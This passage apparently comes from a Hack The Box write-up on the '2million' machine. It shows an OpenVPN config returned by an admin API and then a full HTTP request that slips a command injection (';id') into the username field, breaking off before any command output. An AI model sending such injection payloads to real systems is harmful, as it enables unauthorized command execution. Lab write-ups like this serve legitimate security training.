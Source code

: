 ```http
Pragma: no-cache
Content-Length: 10832

client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
<SNIP>
```

It returns `ovpn` file content.
Not sure what type of script is running behind, but at least, I can guess that there must be a script which is taking `username` and build `ovpn` file.

Assuming that the script is either `python` or `shell` script, the command line would be

```bash
./api_generate.sh bokchee

(OR)

python ./api_generate.py bokchee
```

What if I try command injection here.
I can make it happen by adding `; id` behind the `username` value.

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Content-Length: 29

{"username": "bokchee; id"  }

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:29:27 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
```